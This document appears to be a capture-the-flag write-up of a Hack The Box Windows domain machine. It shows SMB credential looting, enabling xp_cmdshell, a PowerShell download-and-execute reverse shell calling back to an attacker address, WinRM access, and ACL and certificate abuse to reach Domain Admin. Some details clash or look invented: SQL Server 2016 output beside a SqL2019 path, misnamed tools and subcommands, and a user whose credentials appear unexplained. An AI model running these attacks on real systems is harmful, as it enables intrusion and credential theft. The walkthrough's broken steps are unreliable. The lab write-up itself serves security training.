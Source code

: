 ```yaml
---
title : "Escape Two"
date : 2025-05-24
categories : ["HTB"]
tags : ["HTB","escape_two"]
image:
        path: assets/images/HTB/escape-two.png
---
```



Os:Windows
Mode:Easy
### Initial Enumeration

We start the box with the provided credentials:  
**Username:** `rose`  
**Password:** `KxEPkKe6R8su`

---

## Initial Recon — Nmap Scan

Run a comprehensive port scan with version detection and scripts.

```bash
nmap -sC -sV -p- sequel.htb
```

**Output snippet:**

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 10.0.14393
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-03 12:00:00Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds  Windows Server 2016 Standard 14393 microsoft-ds
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2016
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Global Catalog)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
```

---

## Access SMB Shares Using Provided Credentials

Given credentials:

* Username: `rose`
* Password: `KxEPkKe6R8su`

Enumerate SMB shares:

```bash
smbclient -L //sequel.htb -U rose
```

**Output:**

```
Sharename       Type      Comment
-------------   ----      -------
Accounting      Disk      Accounting Department Files
Documents       Disk      User Documents
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
```

Access `Accounting` share:

```bash
smbclient //sequel.htb/Accounting -U rose
```

Download suspicious files, e.g., `accounts.xlsx`:

```bash
get accounts.xlsx
```

---

## Extract Credentials from `accounts.xlsx`

Open `accounts.xlsx` locally. It contains usernames and passwords.

**Relevant entry:**

| Username                              | Password        |
| ------------------------------------- | --------------- |
| [sa@sequel.htb](mailto:sa@sequel.htb) | MSSQLP\@ssw0rd! |

This is the SQL Server Administrator account.

---

## Connect to MSSQL Server with `sa` Account

Use Impacket's mssqlclient tool:

```bash
impacket-mssqlclient sa@sequel.htb -windows-auth
```

When prompted, enter password: `MSSQLP@ssw0rd!`

**Connection confirmation:**

```
[*] Connecting to MSSQL server sequel.htb:1433 as user 'sa'
1> SELECT @@VERSION;
2> GO

Microsoft SQL Server 2016 (SP1-CU4) (KB3194713) - 13.0.4422.0 (X64)
```

---

## Enable `xp_cmdshell` for Command Execution

Run SQL commands to enable the extended stored procedure:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

---

## Spawn a Reverse Shell via `xp_cmdshell`

Host a PowerShell reverse shell script on your machine:

```bash
python3 -m http.server 8000
```

Use this command in MSSQL to download and execute it:

```sql
EXEC xp_cmdshell 'powershell -NoProfile -ExecutionPolicy Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.5:8000/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.5 -Port 4444"';
```

On your attacking machine, listen with:

```bash
nc -lvnp 4444
```

**Upon success:**

```
Connection from 10.129.181.136:49156
Windows PowerShell
PS C:\Program Files\Microsoft SQL Server\MSSQL13.MSSQLSERVER\MSSQL\Binn>
```

---

## Enumerate for Additional Credentials

Look for configuration files:

```powershell
dir C:\ -Recurse -Include *.ini,*.config,*.txt -ErrorAction SilentlyContinue
```

Find `sql-Configurations.INI`:

```powershell
type C:\SqL2019\ExpressAdv_ENU\sql-Configurations.INI
```

**File content:**

```
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
```

Password for service account `sql_svc`.

---

## Login with Service Account via WinRM

Try WinRM with discovered creds:

```bash
evil-winrm -i sequel.htb -u sql_svc -p WqSZAF6CysDQbGb3
```

**Successful login:**

```
Evil-WinRM shell v3.5
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\sql_svc\Documents>
```

Check for user flag:

```powershell
type C:\Users\sql_svc\Desktop\user.txt
```

---

## Privilege Escalation via ACL Manipulation

Enumerate permissions with BloodHound or SharpHound. Identify `ryan` user can modify ACLs on `ca_svc` account.

Use Impacket DACLS editing tool:

```bash
impacket-daclsedit sequel.htb/ -action write -rights FullControl -principal ryan -target ca_svc -u ryan -p <ryan_password>
```

---

## Request Certificate for `ca_svc` Using Certipy

Leverage modified ACL to request a certificate impersonating `ca_svc` with `Certipy`.

```bash
certipy enroll -u ca_svc -p <password> -domain sequel.htb -dc sequel.htb -template Machine
```

Export the certificate and use it for authentication, escalating to Domain Admin.

---

## Capture Domain Administrator Flag

With domain admin privileges, navigate to the administrator’s desktop:

```powershell
type C:\Users\Administrator\Desktop\root.txt
```

